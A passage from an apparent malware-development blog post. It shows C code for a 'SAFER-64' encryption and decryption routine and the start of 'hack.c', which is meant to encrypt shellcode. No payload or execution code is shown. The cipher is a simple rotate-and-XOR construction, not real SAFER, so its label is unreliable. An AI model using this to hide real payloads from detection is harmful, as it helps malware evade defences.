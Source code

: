 What about decryption logic? The decryption process is not much different from encryption:     

```cpp
// extract left and right halves of the data block
L = data_ptr[0];
R = data_ptr[1];

// SAFER-64 decryption rounds
for (i = ROUNDS - 1; i >= 0; i--) {
  T = L ^ key_ptr[(i % 4) + 4];
  T = (T << 1) | (T >> 31); // Rotate left by 1 bit
  R ^= (T + L);
  T = R ^ key_ptr[i % 4];
  T = (T << 1) | (T >> 31); // Rotate left by 1 bit
  L ^= (T + R);
}

// Update the data block with the decrypted values
data_ptr[0] = L;
data_ptr[1] = R;
```

Respectively, SAFER-64 Decryption Function looks like this:    

```cpp
void safer_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int *data_ptr = (unsigned int *)data;
  unsigned int *key_ptr = (unsigned int *)key;
  unsigned int L, R, T;
  int i;

  L = data_ptr[0];
  R = data_ptr[1];

  for (i = ROUNDS - 1; i >= 0; i--) {
    T = L ^ key_ptr[(i % 4) + 4];
    T = (T << 1) | (T >> 31);
    R ^= (T + L);
    T = R ^ key_ptr[i % 4];
    T = (T << 1) | (T >> 31);
    L ^= (T + R);
  }

  data_ptr[0] = L;
  data_ptr[1] = R;
}
```

Full source code for my main logic ("malicious" payload encryption) look like this (`hack.c`):     

```cpp
/*
 * hack.c - encrypt and decrypt shellcode via SAFER. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/04/09/malware-cryptography-26.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#define BLOCK_SIZE 8 // 64 bits
#define ROUNDS 6

void safer_encrypt(unsigned char *data, unsigned char *key) {
  unsigned int *data_ptr = (unsigned int *)data;
  unsigned int *key_ptr = (unsigned int *)key;
```